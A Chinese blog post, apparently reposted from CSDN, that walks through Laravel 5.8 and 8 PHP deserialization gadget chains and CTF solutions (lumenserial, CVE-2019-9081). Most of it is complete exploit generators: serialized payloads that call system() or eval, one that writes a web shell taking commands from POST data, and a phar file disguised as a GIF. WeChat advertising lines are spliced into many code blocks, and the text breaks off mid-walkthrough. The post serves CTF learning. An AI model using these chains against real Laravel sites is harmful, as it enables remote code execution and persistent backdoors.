<!--yml
category: 未分类
date: 2022-04-26 14:34:22
-->

# 好家伙！学习Laravel框架之CTF真题暴力解析_代码熬夜敲的博客-CSDN博客

> 来源：[https://blog.csdn.net/MachineGunJoe/article/details/117784251](https://blog.csdn.net/MachineGunJoe/article/details/117784251)

# 

**目录**

[​](#%E2%80%8B)

[前言：](#%E5%89%8D%E8%A8%80%EF%BC%9A)

[正文](#%E6%AD%A3%E6%96%87)

[Laravel5.8.x反序列化POP链](#Laravel5.8.x%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96POP%E9%93%BE)

[链一](#%E9%93%BE%E4%B8%80)

[rce](#rce)

[eval执行](#eval%E6%89%A7%E8%A1%8C)

[利用跳板](#%E5%88%A9%E7%94%A8%E8%B7%B3%E6%9D%BF)

[链二](#%E9%93%BE%E4%BA%8C)

[利用跳板](#%E5%88%A9%E7%94%A8%E8%B7%B3%E6%9D%BF)

[Laravel8反序列化POP链](#Laravel8%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96POP%E9%93%BE)

[CTF题目](#CTF%E9%A2%98%E7%9B%AE)

[lumenserial](#lumenserial)

[Laravel的CVE-2019-9081 ](#Laravel%E7%9A%84CVE-2019-9081%C2%A0)

[[HMBCTF 2021]EzLight](#%5BHMBCTF%202021%5DEzLight)

[参考链接](#%E5%8F%82%E8%80%83%E9%93%BE%E6%8E%A5)

[福利分享：](#%E7%A6%8F%E5%88%A9%E5%88%86%E4%BA%AB%EF%BC%9A)

* * *

# 前言：

CTF（Capture The Flag）中文一般译作夺旗赛，在网络安全领域中指的是网络安全技术人员之间进行技术竞技的一种比赛形式。CTF起源于1996年DEFCON全球黑客大会，以代替之前黑客们通过互相发起真实攻击进行技术比拼的方式。发展至今，已经成为全球范围网络安全圈流行的竞赛形式，2013年全球举办了超过五十场国际性CTF赛事。而DEFCON作为CTF赛制的发源地，DEFCON CTF也成为了目前全球最高技术水平和影响力的CTF竞赛，类似于CTF赛场中的“世界杯”



(看着怎么有点像电竞世界杯？？)

# 正文

*   我当初选择 Laravel 是有一整套标准的，我的使用的理由也很简单：
*   Laravel 是最有名的 PHP 框架，Github 上两万多 star，比第二第三多出两倍；它的语法优雅，很多方法都不用看文档直接就能推算出来；
*   全栈，该有的都有了，方便快速构建原型；
*   扩展齐全，大量的扩展包，有 WordPress 的感觉；
*   文档齐全；
*   最有名绝对是选择的关键点，要用就用第一的，遇到问题，随便 Google 下也是一堆答案，因为用的人多。
*   而Laravel 最核心的竞争力在我看来是：开发的高效。

熟练使用，加上对各种扩展包的熟悉，在产品思路清晰的情况下，编码时间大大缩短，PHPHub 第一版 MVP 出来就用了三四个晚上，PHPHub5 升级，只用了 24 个小时

通过这个框架来入门大型框架的代码审计、包括锻炼反序列化漏洞的挖掘利用是比较合适的，本文分析了Laravel5和Laravel8两个版本的部分利用链，并结合CTF题目来学习Laravel框架



# Laravel5.8.x反序列化POP链

安装：其中--prefer-dist表示优先下载zip压缩包方式

```
composer create-project --prefer-dist laravel/laravel=5.8.* laravel5.8
```

在路由文件routes/web.php中添加

```
Route::get('/foo', function () {
    if(isset($_GET['c'])){
        $code = $_GET['c'];
        unserialize($code);
    }
    else{
        highlight_file(__FILE__);
    }
    return "Test laravel5.8 pop";
});+WX:machinegunjoe666 免费领取资料
```

然后在public目录起一个php服务就可以进行测试了cd /public

```
php -S 0.0.0.0:port
/foo?c=
```

## 链一

链的入口是在

```
laravel5.8\vendor\laravel\framework\src\Illuminate\Broadcasting\PendingBroadcast.php
```

```
public function __destruct()
{
        $this->events->dispatch($this->event);
    }
```

这里的$this->events和$this->event可控，

这里把$this->events设为含有dispatch方法的Dispatcher类，我们看到laravel5.8\vendor\laravel\framework\src\Illuminate\Bus\Dispatcher.php来

```
public function dispatch($command)
{
        if ($this->queueResolver && $this->commandShouldBeQueued($command)) {
            return $this->dispatchToQueue($command);
        }
        return $this->dispatchNow($command);
    }+WX：machinegunjoe免费领取资料
```

跟踪进commandShouldBeQueued

```
protected function commandShouldBeQueued($command)
{
        return $command instanceof ShouldQueue;
    }
```

这里要求$command（即传进来的$this->event）要实现ShouldQueue该接口



满足ShouldQueue接口的实现类即可，再跟踪进dispatchToQueue看一下public function dispatchToQueue($command)

```
{
        $connection = $command->connection ?? null;

        $queue = call_user_func($this->queueResolver, $connection);
```

这里的$this->queueResolver和$connection都是可控的，到这里就可以直接构造payload

### rce

```
<?php
namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($events, $event) {
            $this->events = $events;
            $this->event = $event;
        }
    }
    class BroadcastEvent {
        public $connection;
        public function __construct($connection) {
            $this->connection = $connection;
        }
    }+WX：machinegunjoe免费领取资料
}
namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver;
        public function __construct($queueResolver){
            $this->queueResolver = $queueResolver;
        }
    }
}
namespace {
    $c = new Illuminate\Broadcasting\BroadcastEvent('whoami');
    $b = new Illuminate\Bus\Dispatcher('system');
    $a = new Illuminate\Broadcasting\PendingBroadcast($b, $c);
    print(urlencode(serialize($a)));
}
```

### eval执行

到这里已经可以调用任意类的任意方法了，但是call_user_func无法执行eval函数，如果我们的system被ban了的话，就需要继续寻找执行任意命令的函数，我们找到laravel5.8\vendor\mockery\mockery\library\Mockery\Loader\EvalLoader.php

```
class EvalLoader implements Loader
{
    public function load(MockDefinition $definition)
{
        if (class_exists($definition->getClassName(), false)) {
            return;
        }

        eval("?>" . $definition->getCode());
    }
}
```

这里有一个eval函数，这里需要绕过eval上面的if语句，否则直接就return了

$definition变量是MockDefinition类，跟进一下class MockDefinition

```
{
    protected $config;
    protected $code;
    ...
    public function getClassName()
{
        return $this->config->getName();
    }
    public function getCode()
{
        return $this->code;
    }
}
```

这里$code，$config可控，但是呢$definition->getClassName()需要一个不存在的类，我们找一个类其getName是可控的，然后构造一个不存在的类即可，如下

```
laravel5.8\vendor\mockery\mockery\library\Mockery\Generator\MockConfiguration.php
```

```
class MockConfiguration
{
    ...
public function getName()
{
        return $this->name;
    }
    ...
}+WX:machinegunjoe666 免费领取资料
```

payload如下

```
<?php
namespace Illuminate\Broadcasting{
    class PendingBroadcast{
        protected $events;
        protected $event;
        public function __construct($events, $event)
{
            $this->event = $event;
            $this->events = $events;
        }
    }
}
namespace Illuminate\Broadcasting{
    class BroadcastEvent
    {
        public $connection;

        public function __construct($connection)
{
            $this->connection = $connection;
        }
    }
}
namespace Illuminate\Bus{
    class Dispatcher
    {
        protected $queueResolver;

        public function __construct($queueResolver)
{
            $this->queueResolver = $queueResolver;
        }
    }
}
namespace Mockery\Generator{
    class MockDefinition
    {
        protected $config;
        protected $code;

        public function __construct(MockConfiguration $config)
{
            $this->config = $config;
            $this->code = '<?php phpinfo();?>';
        }
    }
}

namespace Mockery\Generator{
    class MockConfiguration
    {
        protected $name = "none class";
    }
}

namespace Mockery\Loader{
    class EvalLoader
    {
        public function load(MockDefinition $definition)
        {

        }
    }
}
namespace {
    $config = new \Mockery\Generator\MockConfiguration();
    $connection = new \Mockery\Generator\MockDefinition($config);
    $event = new \Illuminate\Broadcasting\BroadcastEvent($connection);
    $queueResolver = array(new \Mockery\Loader\EvalLoader(),"load");
    $events = new \Illuminate\Bus\Dispatcher($queueResolver);
    $pendingBroadcast = new \Illuminate\Broadcasting\PendingBroadcast($events, $event);
    echo urlencode(serialize($pendingBroadcast));
}
```

### 利用跳板

如果说靶机禁用了system等函数，我们希望用file_put_contents写shell等双参数的函数呢，这里有一个好的跳板

```
laravel5.8\vendor\phpoption\phpoption\src\PhpOption\LazyOption.php
```

```
final class LazyOption extends Option
{
    ...
    public function filter($callable)
{
        return $this->option()->filter($callable);
    }
    ...
private function option()
{
        if (null === $this->option) {+WX：machinegunjoe免费领取资料
            /** @var mixed */
            $option = call_user_func_array($this->callback, $this->arguments);
```

这里的$this->callback，$this->arguments是可控的，但是注意到option的属性是private，无法直接从我们刚刚的call_user_func直接去调用它，但是有许多类似filter的函数里面有调用option的

这里可以直接构造payload

```
<?php
namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($events, $event) {
            $this->events = $events;
            $this->event = $event;
        }
    }
    class BroadcastEvent {
        public $connection;
        public function __construct($connection) {
            $this->connection = $connection;
        }
    }
}
namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver;
        public function __construct($queueResolver){
            $this->queueResolver = $queueResolver;
        }
    }
}
namespace PhpOption{
    final class LazyOption{
        private $callback;
        private $arguments;
        public function __construct($callback, $arguments)
{
            $this->callback = $callback;
            $this->arguments = $arguments;
        }
    }
}
namespace {
    $d = new PhpOption\LazyOption("file_put_contents", ["shell.php", "<?php eval(\$_POST['cmd']) ?>"]);
    $c = new Illuminate\Broadcasting\BroadcastEvent('whoami');
    $b = new Illuminate\Bus\Dispatcher(array($d,"filter"));
    $a = new Illuminate\Broadcasting\PendingBroadcast($b, $c);
    print(urlencode(serialize($a)));
}
```

## 链二

入口同样是

```
public function __destruct()
{
        $this->events->dispatch($this->event);
    }
```

这里转换思路，找某个类没有实现dispatch方法却有__call方法，这里就可以直接调用，找到

```
laravel5.8\vendor\laravel\framework\src\Illuminate\Validation\Validator.php
```

```
 class Validator implements ValidatorContract
{
    ...
public function __call($method, $parameters)
{
        $rule = Str::snake(substr($method, 8));

        if (isset($this->extensions[$rule])) {
            return $this->callExtension($rule, $parameters);
        }
这里的$method是固定的字符串dispatch，传到$rule的时候为空，然后$this->extensions可控
跟踪进callExtension方法
protected function callExtension($rule, $parameters)
{
        $callback = $this->extensions[$rule];

        if (is_callable($callback)) {
            return call_user_func_array($callback, $parameters);
```

$callback和$parameters可控，于是就可以构造payload了

```
<?php
namespace Illuminate\Broadcasting{
    class PendingBroadcast{
        protected $events;
        protected $event;

        public function __construct($events, $event)
{
            $this->events = $events;
            $this->event = $event;
        }
    }
}+WX:machinegunjoe666 免费领取资料

namespace Illuminate\Validation{
    class Validator{
        protected $extensions;
        public function __construct($extensions)
{
            $this->extensions = $extensions;
        }
    }
}

namespace{
    $b = new Illuminate\Validation\Validator(array(''=>'system'));
    $a = new Illuminate\Broadcasting\PendingBroadcast($b, 'id');
    echo urlencode(serialize($a));
}
```

这条链在Laravel8里面也是可以用的

### 利用跳板

和上面一样可以加LazyOption这个跳板

```
<?php
namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($events, $event) {
            $this->events = $events;
            $this->event = $event;
        }
    }
}+WX：machinegunjoe免费领取资料

namespace Illuminate\Validation {
    class Validator {
        public $extensions;
        public function __construct($extensions){
            $this->extensions = $extensions;
        }
    }
}

namespace PhpOption {
    class LazyOption {
        private $callback;
        private $arguments;
        public function __construct($callback, $arguments) {
            $this->callback = $callback;
            $this->arguments = $arguments;
        }
    }
}

namespace {
    $c = new PhpOption\LazyOption("file_put_contents", ["shell.php", "<?php eval(\$_POST['cmd']) ?>"]);
    $b = new Illuminate\Validation\Validator(array(''=>array($c, 'filter')));
    $a = new Illuminate\Broadcasting\PendingBroadcast($b, 'whoami');
    print(urlencode(serialize($a)));
}
```

# Laravel8反序列化POP链

在下面参考链接文章中Laravel8有介绍三条链都很详细，链和上面Laravel5.8也差不太多，就不赘述，然后有一条可以phpnfo的，同样是经典入口类


```
laravel859\vendor\laravel\framework\src\Illuminate\Broadcasting\PendingBroadcast.php
```

```
public function __destruct()
{
        $this->events->dispatch($this->event);
    }
```

这里的$this->events和$this->event可控

同样这里有两种方法，要不使$this->events为某个拥有dispatch方法的类，我们可以调用这个类的dispatch方法

要不就使$this->events为某个类，并且该类没有实现dispatch方法却有__call方法，那么就可以调用这个__call方法了

看到

```
laravel859\vendor\laravel\framework\src\Illuminate\View\InvokableComponentVariable.php
```

```
public function __call($method, $parameters)
{
        return $this->__invoke()->{$method}(...$parameters);
    }

    /**
     * Resolve the variable.
     *
     * @return mixed
     */
    public function __invoke()
{
        return call_user_func($this->callable);
    }
```

这里的_call会直接调用__invoke，$this->callable也是我们可控的，不过这里只能调用phpinfo，比较鸡肋，payload如下

```
<?php
namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($events, $event) {
            $this->events = $events;
            $this->event = $event;
        }
    }
}
namespace Illuminate\View {
    class InvokableComponentVariable {
        protected $callable;
        public function __construct($callable)
{
        $this->callable = $callable;
    }
    }
}

namespace {
    $b = new Illuminate\View\InvokableComponentVariable('phpinfo');
    $a = new Illuminate\Broadcasting\PendingBroadcast($b, 1);
    print(urlencode(serialize($a)));
}
```

因为这里我们只能控制$this->callable，想要rce的话，还可以去找无参的方法里面带有call_user_func或者eval然后参数可控之类的，但是这里我找了好像没找到，读者有兴趣可以去试试

# CTF题目

## lumenserial



lumenserial\routes\web.php先看到路由文件

```
$router->get('/server/editor', 'EditorController@main');
$router->post('/server/editor', 'EditorController@main');
```

再看到

```
lumenserial\app\Http\Controllers\EditorController.php
```

```
class EditorController extends Controller
{
private function download($url)
{
...
        $content = file_get_contents($url);
```

发现这里的$url传进file_get_contents可以phar反序列化，然后$url的值来源于doCatchimage 方法中的 $sources 变量

```
class EditorController extends Controller
{
    ...
protected function doCatchimage(Request $request)
{
        $sources = $request->input($this->config['catcherFieldName']);
        $rets = [];

        if ($sources) {
            foreach ($sources as $url) {
                $rets[] = $this->download($url);
            }
```

我们看到main发现他是通过call_user_func来调用带do开头的方法

```
class EditorController extends Controller
{
    ...
public function main(Request $request)
{
        $action = $request->query('action');

        try {
            if (is_string($action) && method_exists($this, "do{$action}")) {
                return call_user_func([$this, "do{$action}"], $request);
            } else {
```

```
可以通过如下控制变量 
```

```
http://ip/server/editor/?action=Catchimage&source[]=phar://xxx.gif
```

然后在上面的5.8链的基础加上如下

```
@unlink("test.phar");
$phar = new \Phar("test.phar");//后缀名必须为phar
$phar->startBuffering();
$phar->setStub('GIF89a'.'<?php __HALT_COMPILER();?>');//设置stub
$phar->setMetadata($pendingBroadcast);//将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test");//添加要压缩的文件
$phar->stopBuffering();+WX：machinegunjoe免费领取资料
```

上传phar文件再用phar协议打即可



## Laravel的CVE-2019-9081 

影响版本为5.7.x,当时别个搜CVE也能搜出来，先下载下来，lara5.7

但lara5.7里面没有vendor,在文件夹下，用cmd命令 composer install就可产生：

开始对比：



主要差别确实就是MRCTF的www_laravel，其app/Http/Controllers下多了一个路由，也就是图中的TaskController.php


 TaskCotroller.php

```
<?php
namespace App\Http\Controllers;

class TaskController
{
    public function index(){
        if(isset($_GET['action']) && preg_match('/serialize\/*$/i',   $_GET['action'])){
            exit(1);
        }
        if(preg_match('/serialize/i', basename(  $_GET['action']))){
            if(isset($_GET['ser'])){
                $ser = $_GET['ser'];
                unserialize($ser);
                return ;
            }else{
                echo "no unserialization";
                return ;
            }
        }
    }
}
?>
```

题目的路由文件也进行了更改：



 其是一个CVE的复现，该CVE指出漏洞出现在PendingCommand.php文件中，进入该文件：



这里看到了提示，也就暗示是目标的位置，也说明就是考察CVE复现
别的文章说是要使用原生类：



所谓的反序列化函数，其反序列化的入口就是之前的/hello路由，
上图的__tostring函数触发后会返回文件名：
需要找一个把他显示出来的函数：

CVE和其他WP说是：Response.php
vendor/symfony/http-foundation/Response.php



 存在这么一个方法，就是可以返回内容：



 再找到wp说的所需的：

